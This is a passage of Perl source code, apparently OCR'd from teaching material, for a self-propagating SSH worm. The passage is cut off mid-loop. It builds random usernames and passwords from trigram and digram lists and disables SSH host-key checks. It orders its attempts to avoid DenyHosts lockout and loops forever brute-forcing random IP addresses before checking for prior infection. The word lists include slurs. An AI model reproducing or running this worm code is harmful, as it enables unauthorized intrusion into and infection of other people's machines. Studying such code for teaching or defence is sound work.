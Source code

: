 ```perl
# paragraph of the main comment block above. As
# mentioned there, you need to provide two IP
# addresses in order to run this code in debug
# mode.
$debug = 0;

# The following numbers do NOT mean that the worm will attack only 3
# hosts for 3 different usernames and 3 different passwords. Since the
# worm operates in an infinite loop, at each iteration, it generates a
# fresh batch of hosts, usernames, and passwords.
$NHOSTS = $NUSERNAMES = $NPASSWDS = 3;

# The trigrams and digrams are used for synthesizing plausible looking
# usernames and passwords. See the subroutines at the end of this script
# for how usernames and passwords are generated by the worm.
@trigrams = qw/bad bag bal bak bam ban bap bar bas bat bed beg ben bet beu bum
			bus but buz cam cat ced cel cin cid cip cir con cod cos cop
			cub cut cud cun dak dan doc dog dom dop dor dot dov dow fab
			faq fat for fuk gab jab jad jam jap jad jas jew koo kee kil
			kim kin kip kir kis kit kix laf lad laf lag led leg lem len
			let nab nac nad nag nal nam nan nap nar nas nat oda ode odi
			odo ogo oho ojo oko omo out paa pab pac pad paf pag paj pak
			pal pam pap par pas pat pek pem pet qik rab rob rik rom sab
			sad sag sak sam sap sas sat sit sid sic six tab tad tom tod
			wad was wot xin zap zuk/;

@digrams = qw/al an ar as at ba bo cu da de do ed ea en er es et go gu ha hi
			ho hu in is it le of on ou or ra re ti to te sa se si ve ur/;

$opt = [-o => "UserKNownHostsFile /dev/null",
		-o => "HostbasedAuthentication no",
		-o => "HashKnownHosts no",
		-o => "ChallengeResponseAuthentication no",
		-o => "VerifyHostKeyDNS no",
		-o => "StrictHostKeyChecking no"
	];
#push @$opt, '-vvv';
# For the same IP address, we do not want to loop through multiple user
# names and passwords consecutively since we do not want to be quarantined
# by a tool like DenyHosts at the other end. So let’s reverse the order
# of looping.
for (;;) {
	my @usernames = @{get_new_usernames($NUSERNAMES)};
	my @passwds = @{get_new_passwds($NPASSWDS)};
	# print "usernames: @usernames\n";
	# print "passwords: @passwds\n";
	# First loop over passwords
	foreach my $passwd (@passwds) {
		# Then loop over user names
		foreach my $user (@usernames) {
			# And, finally, loop over randomly chosen IP addresses
			foreach my $ip_address (@{get_fresh_ipaddresses($NHOSTS)}) {
				print "\nTrying password $passwd for user $user at IP " .
					"address: $ip_address\n";
				my $ssh = Net::OpenSSH->new($ip_address,
											user => $user,
											passwd => $passwd,
											master_opts => $opt,
											timeout => 5,
											ctl_dir => '/tmp/');
				next if $ssh->error;
				# Let’s make sure that the target host was not previously
				# infected:
```